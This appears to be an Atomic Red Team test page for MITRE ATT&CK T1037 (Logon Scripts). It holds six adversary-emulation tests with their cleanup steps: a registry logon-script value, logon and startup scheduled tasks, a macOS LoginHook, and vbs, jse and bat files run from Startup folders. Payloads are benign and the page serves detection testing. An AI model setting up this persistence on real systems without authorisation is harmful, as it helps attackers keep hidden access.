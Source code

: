 # T1037 - Logon Scripts
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1037)
<blockquote>### Windows

Windows allows logon scripts to be run whenever a specific user or group of users log into a system. (Citation: TechNet Logon Scripts) The scripts can be used to perform administrative functions, which may often execute other programs or send information to an internal logging server.

If adversaries can access these scripts, they may insert additional code into the logon script to execute their tools when a user logs in. This code can allow them to maintain persistence on a single system, if it is a local script, or to move laterally within a network, if the script is stored on a central server and pushed to many systems. Depending on the access configuration of the logon scripts, either local credentials or an administrator account may be necessary.

### Mac

Mac allows login and logoff hooks to be run as root whenever a specific user logs into or out of a system. A login hook tells Mac OS X to execute a certain script when a user logs in, but unlike startup items, a login hook executes as root (Citation: creating login hook). There can only be one login hook at a time though. If adversaries can access these scripts, they can insert additional code to the script to execute their tools when a user logs in.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Logon Scripts](#atomic-test-1---logon-scripts)

- [Atomic Test #2 - Scheduled Task Startup Script](#atomic-test-2---scheduled-task-startup-script)

- [Atomic Test #3 - Logon Scripts - Mac](#atomic-test-3---logon-scripts---mac)

- [Atomic Test #4 - Supicious vbs file run from startup Folder](#atomic-test-4---supicious-vbs-file-run-from-startup-folder)

- [Atomic Test #5 - Supicious jse file run from startup Folder](#atomic-test-5---supicious-jse-file-run-from-startup-folder)

- [Atomic Test #6 - Supicious bat file run from startup Folder](#atomic-test-6---supicious-bat-file-run-from-startup-folder)


<br/>

## Atomic Test #1 - Logon Scripts
Adds a registry value to run batch script created in the C:\Windows\Temp directory.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| script_path | Path to .bat file | String | $env:SystemRoot&#92;Temp&#92;art.bat|
| script_command | Command To Execute | String | echo Art "Logon Script" atomic test was successful. >> %USERPROFILE%&#92;desktop&#92;T1037-log.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo cmd /c "#{script_command}" > #{script_path}
REG.exe ADD HKCU\Environment /v UserInitMprLogonScript /t REG_SZ /d "#{script_path}"
```

#### Cleanup Commands:
```cmd
REG.exe DELETE HKCU\Environment /v UserInitMprLogonScript /f
del #{script_path} >nul 2>nul
del "%USERPROFILE%\desktop\T1037-log.txt" >nul 2>nul
```





<br/>
<br/>

## Atomic Test #2 - Scheduled Task Startup Script
Run an exe on user logon or system startup

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
schtasks /create /tn "T1037_OnLogon" /sc onlogon /tr "cmd.exe /c calc.exe"
schtasks /create /tn "T1037_OnStartup" /sc onstart /ru system /tr "cmd.exe /c calc.exe"
```

#### Cleanup Commands:
```cmd
schtasks /delete /tn "T1037_OnLogon" /f
schtasks /delete /tn "T1037_OnStartup" /f
```





<br/>
<br/>

## Atomic Test #3 - Logon Scripts - Mac
Mac logon script

**Supported Platforms:** macOS




#### Run it with these steps! 
1. Create the required plist file

    sudo touch /private/var/root/Library/Preferences/com.apple.loginwindow.plist

2. Populate the plist with the location of your shell script

    sudo defaults write com.apple.loginwindow LoginHook /Library/Scripts/AtomicRedTeam.sh

3. Create the required plist file in the target user's Preferences directory

	  touch /Users/$USER/Library/Preferences/com.apple.loginwindow.plist

4. Populate the plist with the location of your shell script

	  defaults write com.apple.loginwindow LoginHook /Library/Scripts/AtomicRedTeam.sh







<br/>
<br/>

## Atomic Test #4 - Supicious vbs file run from startup Folder
vbs files can be placed in and ran from the startup folder to maintain persistance

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item $PathToAtomicsFolder\T1037\src\vbsstartup.vbs "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\vbsstartup.vbs"
Copy-Item $PathToAtomicsFolder\T1037\src\vbsstartup.vbs "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\vbsstartup.vbs"
cscript.exe "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\vbsstartup.vbs"
cscript.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\vbsstartup.vbs"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\vbsstartup.vbs" -ErrorAction Ignore
Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\vbsstartup.vbs" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #5 - Supicious jse file run from startup Folder
jse files can be placed in and ran from the startup folder to maintain persistance.
Upon execution, "T1137 Hello, World JSE!" will be printed to the powershell session twice.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item $PathToAtomicsFolder\T1037\src\jsestartup.jse "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\jsestartup.jse"
Copy-Item $PathToAtomicsFolder\T1037\src\jsestartup.jse "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\jsestartup.jse"
cscript.exe /E:Jscript "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\jsestartup.jse"
cscript.exe /E:Jscript "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\jsestartup.jse"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\jsestartup.jse" -ErrorAction Ignore
Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\jsestartup.jse" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #6 - Supicious bat file run from startup Folder
bat files can be placed in and executed from the startup folder to maintain persistance.
Upon execution, cmd will be run and immediately closed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item $PathToAtomicsFolder\T1037\src\batstartup.bat "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\batstartup.bat"
Copy-Item $PathToAtomicsFolder\T1037\src\batstartup.bat "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\batstartup.bat"
Start-Process "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\batstartup.bat"
Start-Process "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\batstartup.bat"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\batstartup.bat" -ErrorAction Ignore
Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\batstartup.bat" -ErrorAction Ignore
```





<br/>
